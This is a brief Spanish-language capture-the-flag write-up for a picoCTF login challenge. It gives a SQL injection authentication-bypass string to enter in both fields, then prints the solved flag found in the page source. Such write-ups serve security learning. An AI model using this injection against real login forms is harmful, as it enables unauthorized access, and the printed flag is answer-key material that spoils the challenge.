 ## Descripción 
Can you login to this website?Try to login [here](http://saturn.picoctf.net:49295/).
## Solución

Usar admin' or 1=1 -- - en ambos campos para hacer bypass.

Ver el codigo fuente para ver la flag:
picoCTF{L00k5_l1k3_y0u_solv3d_it_ec8a64c7}
## Notas Adicionales 
## Referencias
